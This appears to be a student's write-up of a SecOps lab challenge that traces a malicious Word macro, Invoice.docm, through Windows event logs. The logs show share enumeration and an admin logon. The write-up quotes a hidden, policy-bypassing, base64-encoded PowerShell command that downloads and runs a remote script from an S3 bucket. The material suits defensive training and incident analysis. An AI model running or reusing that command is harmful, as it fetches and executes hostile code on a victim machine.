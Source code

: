 SecOps individual challenge 

\\\\\ KNOWN BENIGN \\\\\

> filebeat.exe  
> cvtres.exe  
a software platform for developing and running applications

\\\\\\

command line process: C:\Windows\system32\svchost.exe -k netsvcs -p -s gpsvc                    
G.e.t.-.S.m.b.S.h.a.r.e. .|. .C.o.n.v.e.r.t.T.o.-.J.s.o.n.
> ENUMERATES NETWORK SHARES and CONVERTS THEM TO JSON
svchost.exe - handles ervices running on windows 
-k netsvcs - specifies group of services
-p - makes the associated process persistent
-s gpsvc - specifies the group policy client service 

"C:\Windows\regedit.exe" [REGEDIT.EXE]

\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\

\\\\ system time was changed 

> Jun 15, 2022 @ 15:43:02.945	 - 	DESKTOP-J22LNE4	 - 	 - 	configuration	change
winlog.event_data.NewTime
Jun 15, 2022 @ 15:43:02.944

winlog.event_data.OldTime
Jun 14, 2022 @ 15:02:51.129

G.e.t.-.S.m.b.S.h.a.r.e. .|. .C.o.n.v.e.r.t.T.o.-.J.s.o.n.
> ENUMERATES NETWORK SHARES and CONVERTS THEM TO JSON

\\\\ logon is successful and user is determined to have administrator access

> Jun 15, 2022 @ 15:43:03.056	 - 	DESKTOP-J22LNE4	 - 	 - 	iam	admin

> Jun 15, 2022 @ 15:43:03.068	services.exe
Subject:
	Security ID:		S-1-5-18
	Account Name:		DESKTOP-J22LNE4$
	Account Domain:		WORKGROUP
	Logon ID:		0x3E7



\\\\ powershell is then ran as a child of [winword.exe]

> Jun 15, 2022 @ 15:43:16.168	powershell.exe	DESKTOP-J22LNE4	
powershell.exe -WindowStyle hidden -EP Bypass -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AdAB1AGUAbwBlAG8AcwBsAHgAbwAuAHMAMwAuAHUAcwAtAHcAZQBzAHQALQAyAC4AYQBtAGEAegBvAG4AYQB3AHMALgBjAG8AbQAvAHcAaQBuAHUAcABkAGEAdABlAHIALgBwAHMAMQAnACkA"	C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe	process	info	
8560	PowerShell.EXE

\\\\ this was determined by examining these parameters associated with the event:

[process.parent.args]
C:\Program Files\Microsoft Office 15\Root\Office15\WINWORD.EXE, /n, C:\Users\Analysis-Lab\Desktop\ [Invoice.docm] , /o
